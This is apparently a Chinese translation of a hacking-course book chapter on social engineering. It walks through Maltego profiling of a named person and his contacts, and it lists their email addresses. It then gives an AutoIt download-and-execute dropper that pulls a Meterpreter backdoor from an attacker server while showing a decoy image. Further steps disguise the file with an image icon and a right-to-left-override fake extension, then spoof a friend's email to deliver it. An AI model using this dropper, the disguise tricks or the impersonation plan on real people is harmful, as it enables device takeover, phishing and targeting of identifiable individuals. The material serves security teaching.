

# 第十三章：客户端攻击 - 社会工程学

本章重点讨论客户端攻击，受害者的行动将允许我们访问他们的系统，这就是社会工程概念将有助于我们发动攻击的地方。我们将看一下一个叫做 Maltego 的工具，这是一个非常强大的信息收集工具，但在本章中我们只会看它的基本应用。然后，我们将搜索所有与我们目标相关的可能的社交链接；我们也将使用 Maltego 工具进行这项工作。接着，我们将通过他们的推特和电子邮件联系人来定位受害者。随着我们的前进，我们将使用后门文件。然后，我们将为文件生成一个图标 - 它看起来更像是一个普通的图像，但实际上是一个伪装的后门，以便我们可以访问系统。我们还将学习如何更改可以发送给目标的文件的扩展名。最后，我们将执行电子邮件欺骗，这意味着我们将通过有效的电子邮件 ID 向受害者发送电子邮件。

本章涵盖以下主题：

+   利用社会工程学的客户端攻击

+   Maltego 概述

+   社会工程学 - 关联账户

+   社会工程学 - 推特

+   社会工程学 - 电子邮件

+   社会工程学 - 总结

+   下载并执行 AutoIt

+   更改图标并编译有效载荷

+   更改扩展名

+   客户端攻击 - TDM 电子邮件欺骗

# 利用社会工程学的客户端攻击

到目前为止，我们已经看到了客户端攻击中非常好的方法。这些方法很好，因为我们实际上不需要要求客户端做任何事情。如果客户端更新他们的系统，或者如果他们下载了什么东西，那么我们会在飞行中给它加上后门。这些方法非常好，因为我们实际上不需要做什么，所以目标必须执行一个动作，但我们不需要要求他们做什么。这些方法的唯一问题是我们需要成为中间人，我们需要做 ARP 欺骗，我们需要启动我们自己的虚假接入点，或者我们需要做一些事情成为中间人。

在接下来的章节中，我们将讨论如果我们不是中间人，且目标人物位于远程位置，无法成为中间人的情况下，我们可以使用的方法。这里我们将谈论社交工程学。社交工程学是一个广泛的概念；我们可以进行很多攻击，因为它完全取决于目标。有时候，我们甚至不需要任何技术信息来进行这些攻击，所以这完全取决于我们的目标，以及我们如何构建攻击策略。我们将收集信息，以便获得受害者系统的访问权限。我们需要尽可能多地收集有关目标的信息，了解他们使用哪些网站，谁是他们的朋友，等等；任何信息，都可能在社交工程中对我们非常有用。

我们将首先探讨如何收集有关特定人员的信息。所以，假设我们只有一个名字，或一个 Facebook 账号，以及基于这个名字我们能收集到的任何信息。之后，我们将开始构建策略，看看如何利用收集到的所有信息来构建一个策略，进而发起攻击并获取目标计算机系统的访问权限，最后我们将创建我们的后门。我们将创建一个目标用户能够接受的后门，使他们可能会使用它，我们还将看看如何伪装成他们的朋友，诱使目标人物运行后门。实际上，我们将要求他们运行一个特定的文件，而不是我们之前看到的方法，即用户自愿更新他们的系统或下载某个可执行文件。

# Maltego 概述

在本节中，我们将介绍一个在本章中我们将频繁使用的工具。这个工具非常适合信息收集，它允许我们收集几乎任何事物的信息，我们可以收集有关人、网站、计算机、公司、电话号码等方面的信息；任何我们能想到的事情，都可以加入到这个工具中，尝试提取与该实体相关的信息。这个工具叫做 Maltego，它将成为我们进行信息收集时最好的朋友。这个工具可以用来收集任何事物的信息，但使用方式是一样的，因此无论我们的目标是一个网站、一个人、一部电话号码还是一家公司，都没有关系。唯一不同的是我们将收集到的信息。在这一节中，我们将快速概览这个工具，然后在接下来的章节中我们将更多地使用它。

要运行该工具，只需进入“显示应用程序”，然后在搜索栏中输入`maltego`，我们可以看到一个名为 maltego 的工具出现：


第一次使用该工具时，我们会被要求使用用户名和密码登录；如果没有账号，我们需要通过向导进行注册。我们只需要创建一个新的用户名和密码，系统会向我们发送激活链接，之后我们就能登录并使用该工具。登录后，它会为我们提供一个已经制作好的信息收集模板。我们不会使用任何一个模板。在接下来的截图中，我们可以看到主页，从这里我们可以向工具中添加更多的变换器：


基本上，变换器是插件，它们允许我们收集特定事物的信息。我们只需点击任何一个可用选项上的安装按钮，它就会添加更多的变换器或我们可以用 Maltego 做的其他事情。很多这些额外的变换器会要求我们使用用户名和密码登录，或者使用某个特定的 API。

现在，我们将使用内置的变换器，并且我们将前往菜单栏中的实体选择菜单，创建一个新的图形，并打开 Maltego 的主要工作区：


如下截图所示，在中间我们有我们的图形，我们将在这里看到我们的实体和关于实体的信息：


在概览标签中，我们可以看到图形的概述，在详细视图中，我们可以查看图中每个实体的详细信息，在右下角的属性视图标签中，我们将能够更改这些实体的属性。目前这些标签都是空的，但一旦我们开始使用该工具，它将立刻变得清晰。在左上角，我们可以在实体调色板标签中找到我们的实体，它们根据实体类型被组织成不同类别。

例如，如果我们点击基础设施，它将允许我们添加一个域名；我们可以添加 MX 记录、URL 或网站：


我们可以直接拖拽我们需要的实体；例如，如果我们需要一个网站，只需在图形编辑窗口中拖拽网站实体，现在我们在图中就有了一个网站。从这里开始，我们可以开始收集关于该网站的信息：


有很多不同类型的实体。我们还可以从实体调色板中添加一个设备。例如，如果我们进入个人类目，我们可以直接添加一个人物实体，填写他们的名字和姓氏，然后我们将能够收集关于这个人的信息。我们还可以添加一个电话号码，并开始收集有关它的信息：


这里真正令人惊叹的一个类别是 socialLinks，它将允许我们添加 Facebook 实体，同时还允许我们添加 GitHub、Foursquare、LinkedIn、Instagram 和其他社交网络：


一旦我们添加它们，我们将能够收集关于这些实体的信息，显然这些信息在试图利用该人并侵入其系统时将对我们非常有帮助。

一旦我们添加了实体，如下截图所示，如果我们点击网站，例如，我们只需转到“属性视图”选项卡，我们就可以看到我们可以修改所选网站的属性。例如，假设我们需要更改的第一件事是将我们目标网站的名称放在“网站”参数中：


一旦我们这样做，我们可以右键单击图中的网站实体并选择我们想要收集的信息类型。在下面的截图中，我们可以看到所有可能的选项：


在本节中，我们不会运行任何转换器；我们将在接下来的章节中进行。现在，我们只是展示了一下工具的快速概述，如何添加实体，如何运行转换器，以及我们所说的这些事情的含义。很多内容仍然有点模糊，但我们将在本章中大量使用这个工具，这将变得非常容易。正如我们所知，我们可以用它来收集关于任何事物的信息，这将极大地增强我们的社会工程技能。

# 社会工程 - 关联账户

在本节中，我们将学习如何针对一个人。我们将从一个人的名字开始，然后看看如何收集关于该人的信息并制定攻击策略。在这个过程中，我们还将了解更多 Maltego 的功能以及如何配置更多设置。因此，我们将通过点击加号开始一个新的图形，如下截图所示：


在实体面板中，在“个人”部分搜索“人员”实体，然后将“人员”实体拖放到工作区。我们假设我们有一个目标并且知道他们的名字，所以名字是`Zaid`，姓氏是`Sabih`。我们将转到“属性视图”选项卡并设置“名字”属性；只需双击它。我们将把它设置为`Zaid`，然后将姓氏属性设置为`Sabih`，如下截图所示：


现在，让我们看看可以收集到哪些关于已创建实体的信息。再次强调，我们所要做的就是右键点击实体，看看我们能获取到什么。所以，我们点击 PATERVA CTAS 类别，然后进入 All Transforms；我们可以获取关联的邮箱，尝试获取电话号码，或者尝试获取 Twitter 账户；我们可以尝试这些。现在，我们将尝试获取这个人的网站，或多个网站：


现在，它会问我们是否要寻找特定的域名。我们假设自己对这方面一无所知，所以我们会在两个网站之间留一个空格，这意味着查找任何与此人相关的网站：


点击 Run!之后，我们应该会得到一些网站，这些网站都与 Zaid Sabih 有关：


关联网站

现在，这并不意味着这些网站实际上与我们的目标人物有关，因为可能还有另一个名为 Zaid Sabih 的人，所以我们需要去每一个网站查看，看看哪些是与那个人相关的。例如，我们会双击 Facebook 网站查看关联信息。在**属性**中，我们将看到与该名字关联的 Facebook URLs：

与目标相关的 URLs

我们甚至可以将 URL 复制到文本文件中，以便更好地查看，我们可以在下面的截图中看到，我们有三个资料页面：


现在，在实际情况下，我们应该进入每一个这些资料页面，看看哪一个与我们的目标人物有关。在这个例子中，我们不打算这么做，因为其中三个实际上与 Zaid 根本没有关系，所以这实际上并没有什么用处。在这种情况下，我们将直接返回，转到下一个实体，看看有什么是有用的。

强烈建议删除那些没有用的，因为它们只会让浏览变得更加困难。只需要点击它，按下删除键，它就会被删除。

对于我们的例子，所有这些信息都与我们的目标相关。我们可以双击其中的每一个，进入属性，寻找网址，并在浏览器中打开。当我们这样做时，我们会得到与此人相关的信息，这将帮助我们制定某种攻击策略，或者帮助我们获取更多信息。现在，因为我们已经查看了所有这些内容，我们将专注于其中一个链接，那就是 Udemy 的链接，也就是与目标在 Udemy 上的信息。我们将像之前一样双击，进入属性，获取网址，复制该网址，并在浏览器中打开。我们可以看到该网址与目标人相关，并且它引导我们到目标教授的一个课程页面。虽然这些信息并不太有用，但我们现在可以看到目标正在教授在线课程：


返回并查看另外两个网址。如果我们浏览第二个网址，我们可以看到它展示的是目标人物的个人资料：


通过浏览该网址，我们可以收集关于这个人的信息。我们可以查看所有相关网站以获取更多的信息。现在，我们需要记住我们设定的目标——那就是我，一个懂得计算机和信息技术的人。当我们的目标是普通公司或普通人时，获取有效信息会容易一些。如果我们查看他们的 YouTube、LinkedIn 和 Facebook 个人资料，我们真的不会得到太多信息。即使我们点击他们的 Facebook 个人资料，我们也会发现 Facebook 并不会给我们带来什么有用的内容，我们需要登录，即使登录后，也不会得到太多有用信息。真正有用的做法是，如果我们去他们的博客并查看“关于”部分；在这里，我们能找到目标人的电子邮件地址，还有他们的 Twitter 账号：


这些信息并未出现在 Udemy 上，现在我们有了两条非常有用的信息。在接下来的部分中，我们将看到如何利用这些信息收集更多关于目标的资料，并希望能够制定出攻击策略。

# 社会工程学 – Twitter

现在我们已经得到了目标人的电子邮件地址和 Twitter 账号。让我们从 Twitter 开始，看看我们能从中获取到什么。打开目标人的 Twitter 账号，复制链接，然后返回到我们的工作区——Maltego，添加一个 Twitter 实体。我们将从社交网络类别中添加一个 Twitter 实体。Maltego 有一个 Twitter 实体，只是目前没有显示出来，让我们来看看如何访问这些设置。

前往实体 | 管理实体，我们可以看到一份可以添加的实体列表：


实体列表

所有这些实体都没有添加到实体面板；我们现在感兴趣的是“隶属 - Twitter”，即 Twitter 社交网络的成员资格。

现在，点击右侧出现的三个小点，将会打开一个窗口，如下面的截图所示。我们将转到“高级设置”，选中“调色板项”复选框，点击“确定”，然后关闭窗口：


编辑实体

现在，Twitter 实体应该显示在实体面板中。因此，我们将其作为普通实体使用。只需拖放它，我们将在属性部分设置其名称，即`Zaid`，我们将在个人资料网址选项卡中放入网址，并且我们的用户 ID 是`Zaid_alq`：


实体面板

现在，我们可以根据他们的 Twitter 帐户收集有关目标人员的信息。右键单击实体，看看我们能获取什么：


关于目标的信息

因此，我们可以获取他们的推文，可以看到他们发送给人们的推文，我们可以转移这些内容，获取更多详细信息，还可以获取他们的粉丝。

我们真正想要的是他们的朋友，这样我们可以通过他们的朋友实际定位他们。因此，再次点击“运行”按钮，在“到 Twitter 朋友”选项前面。这个特定的转换器要求我们登录 Twitter。正如我们在下面的截图中可以看到的，Maltego 告诉我们，我们必须登录 Twitter 才能收集有关目标人物的信息：


信息日志

在上面的截图中，点击“登录”，使用用户名和密码登录。现在它问我们是否要授权此应用程序。我们将点击“授权应用程序”：

授权应用程序

现在，我们应该已经登录了 Maltego，请返回 Maltego，当我们回到工具时，关闭登录窗口，它应该开始查找目标 Twitter 帐户的朋友。正如我们所看到的，我们成功获取了与 Zaid 是朋友的人们，并且我们可以看到一些非常有趣的信息：


在 Twitter 上的受害者联系人

网站并不是非常有用。我们可以假装是这些网站中的一个人，有很高的机会 Zaid 会回复，但不如使用他们的联系人那样好。因此，删除这些网站，现在我们可以看到 Zaid 有三个朋友，我们可以利用所有这些信息。右键单击他们以获取更多信息：


关于连接的详细信息

在下一节中，我们将回到之前的位置。因此，我们已经收集了有关 Twitter 帐户的信息，现在我们将看到如何收集相同 Twitter 人员的电子邮件信息。

# 社会工程学 – 电子邮件

好的，现在让我们看看可以使用目标人物的电子邮件`zaid@isecur1ty.org`获得什么。在 Maltego 中（我们将添加一个新的电子邮件地址实体），前往“个人 | 电子邮件地址”，将其拖放到图表中，并在“属性”中将电子邮件地址设置为`zaid@isecur1ty.org`，如以下截图所示：


属性

我们成功地从目标的博客获取了一个电子邮件地址。使用该电子邮件，我们现在将看看能获取哪些信息。

像往常一样右键点击实体，我们将看到“运行转换”列表。以我们的示例为例，点击“到域名 [DNS]”并点击“运行”按钮：

 运行转换列表

我们看到我们获得了一个域名，即`isecur1ty.org`。接下来我们将尝试从以下网站获取与该网站关联的电子邮件地址：

 域名

右键点击网站，点击“来自域名的电子邮件地址”，然后点击“运行所有”按钮，以运行所有获取与该域名关联的电子邮件地址的转换器：

 运行转换

我们得到了`m.askar@isecur1ty.org`，这是我们在目标的 Twitter 账户上找到的同一个人：

 Twitter 上的连接

我们还可以从域名进行转移，右键点击网站，点击“到网站 [快速查找]”：

 转移到网站选项

以下是该网站：

 与目标相关的网站

从网站上，我们将寻找与之关联的电子邮件地址，右键点击网站，点击“镜像：找到的电子邮件地址”，然后点击“运行”：


提取连接的电子邮件地址

完成后，我们得到两个无用的电子邮件，因此我们将删除这两个，剩下两个有效的电子邮件：


连接的电子邮件地址

我们得到了`mustafa@albazy.com`，这与我们在 Twitter 上找到的同一人，并且我们还得到了`info@isecur1ty.org`。现在，我们可以继续收集更多有关目标的信息。我们已经有足够的信息来开始制定针对目标人物的攻击策略。在下一节中，我们将讨论我们收集到的所有信息，并提出如何攻击此人以及如何入侵他们的系统或账户的想法。

# 社会工程学 – 总结

在这一部分，我们将探讨如何针对我们的目标——一个名叫 Zaid 的人，制定攻击策略。在继续之前，我们将整理工作区，以便我们能够提出一些想法。以我们的例子为例，我们将只保留一些有用的信息，比如 Udemy。我们将把 Zaid 这个主实体放在最上面，然后点击并拖动箭头从电子邮件地址开始，以便我们知道 Zaid 与`zaid@isecur1ty.org`这个地址有关。Zaid 与`zaid@isecur1ty.org`电子邮件相关联，这也让我们找到了`isecur1ty.org`。接下来，我们将从 Zaid 的 Twitter 账户添加另一条箭头，标明这个 Twitter 账户与此人相关联，同时我们这里也有 Udemy 这个实体。我们还知道 Mohammed Askar 的电子邮件是`m.askar@isecur1ty.org`，这个电子邮件与 Mohammed 相关联。

另外，如果电子邮件是`@isecur1ty.org`，那么这个人很可能与`isecur1ty.org`有关。如果我们进行谷歌搜索，我们会发现 Askar 是`isecur1ty.org`的管理员。所以，我们将再次从 isecur1ty 指向 Mohammed 添加一条箭头。对于 Mustafa 这个实体，我们也会做同样的事情，因为我们能看到他的电子邮件是`mustafa@albazy.com`，我们将 isecur1ty 与此人关联。所以现在，如下截图所示，我们的目标是 Zaid，我们知道 Zaid 使用 Udemy 并在那里教授课程。我们还找到了 Zaid 的博客，且能看到他的 YouTube 和 LinkedIn 个人资料：

与目标相关的连接。

这种布局可以让我们想到许多攻击 Zaid 的方法；我们可以查看他在 Udemy 上的活跃程度，并假装是 Udemy 的工作人员。例如，我们可以假装是 Udemy 的管理员，给他发送一个程序，并告诉他这是我们新的 Beta 项目，只会给特殊的讲师。这样，Zaid 会感到自己很特殊，因为他获得了其他讲师没有的东西，并且他会运行那个文件。一旦他运行了那个文件，它实际上是一个特洛伊木马，它会创建一个后门，一个键盘记录器，或者一个会窃取他密码的程序，或者允许我们在目标计算机上做任何想做的事。如前所述，在这一部分我们不会研究技术细节，后续部分我们会讲解具体如何操作。所以，当我们说我们会给他发送一个看起来像普通文件的文件时，我们实际上是能够做到的，而这个普通文件本质上是一个普通程序，但在后台它会执行我们告诉它做的事情。我们还可以假装是来自 YouTube、WordPress 或 Udemy 的人员，要求 Zaid 重置密码，并给他一个链接，链接上的登录页面与 Udemy 或 YouTube 的登录页面一模一样。一旦他输入密码，我们就能得到这个密码。所以这里的可能性是无穷无尽的，我们稍后会讨论如何实现这些方法。

看看我们能看到的与 isecur1ty 的连接，我们可以看到这个人与 isecur1ty 公司有很多联系。我们可以看到他有一个`@isecur1ty.org`的邮箱。再一次，这个邮箱非常有用，因为我们将通过它与扎伊德沟通。我们也可以通过 Udemy 与他沟通，发送消息，但显然他的朋友们并不通过 Udemy 与他沟通。所以我们应该通过他的电子邮件来针对扎伊德。我们还有他的朋友们，比如穆罕默德，我们可以看到他和扎伊德之间有很多联系。他们在 Twitter 上是朋友，他们都活跃在 isecur1ty 上，并且都有`@isecur1ty.org`的邮箱。这让我们觉得他们不仅是工作上的同事，可能还是朋友。通过利用这种友谊，我们可以向扎伊德发送任何东西，问他任何问题；我们可以向他展示我们想买的汽车的图片，或者发送 PDF 文件，因为我们知道这两个家伙都对计算机安全感兴趣——他们经营着一个安全网站。如果我们发送给他一个 PDF 文件，当他打开这个 PDF 时，它将运行我们希望在系统上运行的文件，这将使我们能够访问扎伊德的系统。

当我们发送一封电子邮件时，我们可以发送看起来像是来自穆罕默德的邮件，我们也可以对穆斯塔法做同样的事情。所以我们可以向扎伊德发送内容，发送他们都感兴趣的东西，或者发送图片，或者发送要求他登录并做某事的链接；在社会工程学方面，可能性是无穷无尽的。不仅如此，假设我们尝试了所有方法，仍然无法黑入扎伊德的系统。我们假装成所有这些人，并尝试了我们能想到的所有方法，但仍然无法进入扎伊德的系统。这并不是世界末日；相反，我们可以尝试黑入他某个朋友的电脑。所以我们可以尝试黑入穆罕默德的电脑或者穆斯塔法的电脑。从那里，我们会尝试进入他们的 Facebook 账户，然后通过 Facebook 与扎伊德沟通，因为我们无法在 Facebook 上发送看起来像是来自穆罕默德的消息，我们只能通过电子邮件做到这一点，但同样，我们可以黑入这些人的 Facebook 账户，然后尝试黑入扎伊德的账户。为什么不黑入他们的 isecur1ty 账户呢？我们知道这些人是管理员，他们有`@isecur1ty.org`的邮箱。我们可以黑入他们的电脑，再黑入`isecur1ty.org`。扎伊德肯定浏览过 isecur1ty，所以我们可以在里面埋下一个后门，或者将托管在 isecur1ty 上的某个文件改成后门，然后一旦扎伊德下载或使用它，我们就能黑入他的电脑。

在下一节中，我们将学习如何发送这些假邮件、创建这些后门、制作这些键盘记录器，以及所有那些酷炫的东西。现在，我只是想展示 Maltego 的强大功能，以及我们如何利用它收集关于任何事物的信息。我们从一个名字——Zaid Sabih 开始，能够收集到关于他的网站、博客、YouTube 频道、朋友和邮件的信息。再次强调，这个人是一个技术爱好者，热衷于信息技术，所以他在分享个人信息时非常小心，但我们仍然能够收集到足够的信息来制定攻击策略。如果我们对一个普通人做这些事情，我们会惊讶于能收集到多少信息。

# 下载并执行 AutoIt

在本节中，我们将学习如何将我们创建的后门与任何其他文件类型结合，使其在执行时显示一张图片、一个 PDF 文件、一首歌曲或其他目标人物感兴趣的内容。通过这种方式，我们将能够利用社会工程学让他们运行我们的后门，而他们看到的将是他们信任的内容，但我们的后门将会在后台运行。我们将通过一个下载并执行脚本来实现这一点，该脚本基本上会下载后门，下载目标人物期望的文件，执行目标人物期望的文件，并在后台运行后门。下载并执行脚本包含在资源中，可以在本书的 GitHub 仓库中找到。下载文件后，打开文件，我们可以看到脚本中使用的代码：

```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray
  $sFile = _DownloadFile($url)
  shellExecute($sFile)

Next

Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = @TempDir & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc ;==>_GetURLImage
```

该脚本被编程为我们可以用它下载和执行任何东西，任何数量的文件。因此，我们只需在 `Local $urls` 参数中输入文件的链接或 URL，并用逗号分隔这些链接。这样我们就可以输入 URL 并继续下去。我们可以使用这个脚本来下载和执行两个可执行文件、三个可执行文件，或者我们想要的任何数量的文件。现在，我们将输入我们希望目标人物看到的文件。这个文件需要能够在线获取，并上传到一个直接链接，以便从该链接下载。为了这个示例，我们将使用一张图片，但我们可以使用任何其他文件类型，甚至让他们打开一个 PDF 文件，或者任何其他我们想要的内容。

因此，浏览 Google 图片并寻找一张图片。点击并打开图片，右键单击图片，然后点击“复制图片地址”：


请注意，当我们这样做时，我们会通过地址栏上的直接 URL 获取到图片本身，因此我们可以看到 URL 的结尾是 `.jpg`。当我们访问图片时，周围不会有广告；我们只能看到图片本身。我们脚本中包含的所有文件都需要有一个直接的 URL。将 URL 粘贴到脚本中，如下所示：

```
Local $urls = "https://res.cloudinary.com/goodsearch/image/upload/v1508929095/hi_resolution_merchant_logos/packt-publishing_coupons.png"
```

接下来我们想要下载并执行的文件是我们的后门。我们将插入一个逗号，然后输入后门的直接 URL。对于我们的示例，该 URL 存储在`http://10.20.14.213/evil-files/rev_https_8080.exe`。如果我们直接粘贴该 URL，就可以访问该文件并直接下载。这一点非常重要；如果不使用直接的 URL，脚本将无法正常工作。正如我们所看到的，这个脚本非常简单，唯一需要做的就是插入第一个文件的 URL，然后再插入一个逗号，这一点很重要。我们必须用逗号分隔 URL，然后再输入第二个文件的 URL。如前所述，如果我们想下载更多文件，或者下载更多后门或恶意文件，我们只需要再插入一个逗号，并输入下一个 URL。`Local $urls`参数现在应该包含以下参数：

```
Local $urls = "https://res.cloudinary.com/goodsearch/image/upload/v1508929095/hi_resolution_merchant_logos/packt-publishing_coupons.png, http://10.20.14.213/evil-files/rev_https_8080.exe"
```

现在，我们所需要做的就是将脚本编译成可执行文件，接下来我们将在下一节中学习如何做到这一点。

# 更改图标并编译有效载荷

在上一节中，我们编写了我们的脚本。在这一节中，我们将学习如何将其编译为可执行文件，并且如何更改它的图标。该脚本是用一种名为 AutoIt 的脚本语言编写的。AutoIt 并没有预安装在 Kali 中，但在我们安装 Veil 时，它会被安装上。由于我们使用的是 Veil 后门，没有安装 Veil 我们是无法到达这一步的。因此，我们不会讲解如何安装 AutoIt；我们可以直接下载并使用 Wine 运行安装程序。所以，AutoIt 应该已经为我们安装好了，接下来我们只需要将`.txt`文件重命名，并将扩展名从`.txt`改为`.au3`。然后，在 Kali 中搜索`compile`，我们就可以看到一个可以编译 AutoIt 脚本的应用程序，如下图所示：


它首先要求我们提供源 AutoIt 脚本，就是我们创建的那个文件。所以我们要点击“浏览”，找到`.au3`文件，然后点击“打开”。我们还可以设置文件保存的位置，但我们就按如下截图所示，将其保存在下载文件夹中：


如我们所见，我们可以更改图标，并通过在选项中上传`.ico`文件来使用自定义图标。为此，我们首先需要下载一个代表我们文件的图标。

如果我们的文件是 PDF 文件，那么只需访问 Icon Archive 网站（[`www.iconarchive.com`](http://www.iconarchive.com)），并在网站上搜索并下载一个 PDF 图标。然而，在我们的示例中，我们试图使用图像作为目标文件。Windows 通常会显示图像的预览，而不会为图像显示特定的图标。所以我们需要将图像转换为图标，为此，我们需要访问 RealWorld Designer 网站（[`www.rw-designer.com/image-to-icon`](http://www.rw-designer.com/image-to-icon)）。下载我们想要制作成图标的图像，点击浏览上传到该网站，进行转换后保存到`Downloads`目录。以下是在线图标创建器所需的详细信息：


现在，回到编译器并设置选项——图标——（我们将点击浏览），然后选择我们刚刚下载的图标：


所有选项都已设置好。我们要做的就是点击“转换”，文件就会生成：


点击“确定”，并关闭所有窗口。现在我们已经得到了`.exe`可执行文件：


所以，当我们将其发送给目标时，我们希望发送的是`.exe`，即可执行文件，如前面的截图所示。现在，将可执行文件复制到 Web 服务器的`/var/www/html/evil-files`目录下。

在将文件下载到目标计算机之前，我们希望监听 Metasploit 的传入连接。我们在第十章，*获取计算机设备的访问权限*中学到了如何操作。现在，我们只需运行`exploit`来等待传入连接。一切准备好后，去 Windows 计算机下载文件。文件将在`http://10.0.2.15/evil-files/autoit-download-and-execute.exe`位置提供。访问该链接并保存文件：


如下图所示，我们有一个带图标的文件，该图标显示了图像的预览，非常具有代表性。如果我们双击该文件并运行它，我们会看到对应图标的图像：


如果我们去 Kali 机器，我们会看到我们已经遇到了一个 Meterpreter 会话，基本上现在我们已经入侵了目标计算机，能够对其进行任何操作。所以，为了确认，我们将运行`sysinfo`命令，正如下图所示，现在我们已经进入了目标计算机，并且可以完全访问它：


我们成功地做到这一点，通过一个具有图标的文件，实际上显示了一个与目标人物相关的图像。如前所述，这种方法可以用于将我们的后门与图像、PDF、歌曲或任何目标人物感兴趣的内容结合起来。

# 更改扩展名

如果我们查看到目前为止生成的后门或木马，它只有一个图标，代表目标人物感兴趣的文件。当它被执行时，它会显示一个正常的文件。同时，它也会在后台执行我们的代码，从而允许我们黑入目标计算机，或者做我们想做的任何事。这个文件唯一的问题是，如果我们看文件的结尾，可以看到它有一个 `.exe` 扩展名。在大多数情况下，目标可能看不到 `.exe` 扩展名，因为 Windows 配置为隐藏它，但如果它没有隐藏，那就很明显这个文件是一个可执行文件，因为它以 `.exe` 扩展名结尾。在本节中，我们将专注于如何伪装我们的木马并将其更改为与文件相对应的扩展名。如果我们想让我们的后门看起来像一个 PDF 文件，我们可以让它看起来像一个 `.pdf` 扩展名；如果我们想让文件看起来像一张图像，我们希望它的扩展名像 `.jpg`、`.png`，或代表图像的扩展名。

在我们的例子中，我们希望它看起来像一张图像，这意味着它应该有一个 `.jpg` 扩展名。为此，我们将使用一个从右到左的覆盖字符。我们只需将其复制并粘贴到文本编辑器中，这样在修改时，我们就能清楚地知道我们在做什么：


在前面的截图中，我们可以看到我们希望使用的新文件名，它是 `Image`，并且它将有一个 `.exe` 扩展名。现在，我们实际上希望它有 `.jpg` 扩展名，而不是 `.exe`，但这不可能，因为如果我们这么做，文件就不能成为可执行文件。为了更改扩展名，我们将尝试使用一个从右到左的覆盖字符，让文本从右到左读取。因为文本将从右到左读取，所以我们将在 `Image` 文件名后输入 `gpj`，但我们将其从右到左拼写。再说一遍，这只是我们想使用的扩展名，但我们将其从右到左拼写，所以我们拼写的是 gpj，而不是 `jpg`。

现在，我们要插入一个从右到左的字符。当我们在文本中插入该字符时，之后的内容将会从右到左读取，因此所有内容都会被翻转，`Imagegpj.exe` 文件名将变成 `Imageexe`，而 `gpj` 将从右到左读取，因此它会变成 `.jpg`。让我们执行一下，你将明白从右到左读取的意思。为了获得那个字符，我们将在 Kali 中搜索 `Characters` 并打开程序：


点击搜索图标，搜索右到左覆盖：


如果我们点击它，我们将看到一个按钮，允许我们复制该字符：


点击复制字符，它将复制这个示例的字符。现在，返回编辑器，将复制的字符粘贴到`gpj.exe`前面：


如前图所示，如果我们粘贴它，一切都将从右到左读取，并且文件名将被称为`Imageexe.jpg`。如果我们将其作为一本书或其他东西使用，我们想要考虑一个以“ex”结尾的名字。任何以“ex”结尾的名称都将是一个好的选择。所以，我们现在有了名字，我们只需要从文本编辑器中复制新名称，然后重命名后门文件，我们将拥有一个名为`Imageexe.jpg`的文件，如下图所示：


现在，我们可以将新文件发送到目标，但我们不想直接发送它，因为一些最近的浏览器在下载文件时会移除右到左的覆盖，所以我们要做的是将文件压缩为`Imagejpg.zip`：


这样，当文件被浏览器下载时，它不会替换从右到左的覆盖。复制内容，粘贴到`evil-files`文件夹中，然后我们将从 Windows 机器下载它。

现在，我们将监听传入的连接（我们已经做过这个，所以如果需要复习，请返回到第十章，*获取计算机设备的访问权限*）。去 Windows 机器并下载位于`http://10.0.2.15/Imagejpg.zip`的文件：


解压下载的文件，正如我们在下图中看到的，文件具有`.jpg`扩展名。它有一个图片图标，如果我们双击它，它实际上会展示一张图片，但与此同时，它将在后台执行我们的后门：


所以，如果我们去 Kali 机器，我们将从那台计算机获取一个会话，为了确认这一点，我们将运行`sysinfo`。正如我们在下图中看到的，我们现在进入了那台计算机，并且对它拥有完全的控制权：


我们通过使用一个看起来和功能完全像图像的文件成功实现了这一点。这种方法可以用来让文件看起来像任何其他文件类型，所以我们不必让它看起来像图像；我们可以用这种方法让它看起来像 PDF、歌曲、视频或任何我们想要的东西。我们可以使用下载并执行的负载将后门与任何文件结合，然后使用这种方法将文件扩展名更改为我们想要的任何文件扩展名。

# 客户端攻击 – TDM 电子邮件欺骗

我们已经看到如何将任何文件变成后门，并让它看起来像文档、歌曲、程序或图像。我们的例子是图像，但我们可以对任何文件进行操作。所以，我们应该使用 Maltego 收集信息，然后根据收集到的信息定位目标。例如，我们可以假装是技术支持，要求目标安装更新，并将我们的后门嵌入到可执行文件中，或者我们也可以假装是朋友或同事，要求目标运行某个文档或 PDF；可能性是无穷的。在这个例子中，我们将假装是朋友，要求目标打开一张汽车的图片，告诉他们我们在考虑购买那辆车。我们将使用在*更改扩展名*部分创建的后门，并使用一张汽车的图像，然后联系目标，询问他们对这辆车的看法。

让我们回到我们使用 Maltego 创建的图表，查看*SE 总结*部分的截图，信息就显示在那里。通过浏览他的 Twitter，我们发现目标有一个叫 Mohammed 的朋友，当我们查看他的电子邮件时，我们看到这个人有一个电子邮件地址`m.askar@isecur1ty.org`。因此，这个人在电子邮件地址和 Twitter 上都出现过两次，这意味着目标和这个人可能关系很好，Zaid 打开他们发送的邮件的可能性很高。所以我们可以通过 Twitter 联系目标，假装是认识 Mohammed 的人，或者通过电子邮件联系他们。通过电子邮件联系有一个巨大优势，因为我们可以假装成`m.askar@isecur1ty.org`，并且我们可以发送一封看起来完全像是 Mohammed Askar 发来的邮件：


从邮件附件下载的图像。

所以，这就是我们要做的。我们去 Google 搜索一个邮件发送器。我们可以在自己的网络服务上托管邮件发送器，也可以使用 Google 查找邮件发送器。我试过几个，并且能够通过最安全的邮件发送器发送匿名邮件。所以我们将使用[`anonymousemail.me/`](https://anonymousemail.me/)，它要求我们输入名字，因为我们假装是 Mohammed，所以我们输入`mohammed`，然后它会要求我们输入邮箱，也就是邮件的发送地址，我们将其设置为`m.askar@isecur1ty.org`，这样我们发送的消息看起来就像是来自这个邮箱。我们将使用我们自己设置的测试邮箱。我们还可以设置回复地址，如果有人回复这封邮件，邮件将被发送到哪个地址。我们将此项留空，主题设置为`Check out this car`，然后写一个非正式的消息，因为我们认为这个人是朋友。以下截图展示了之前的步骤：


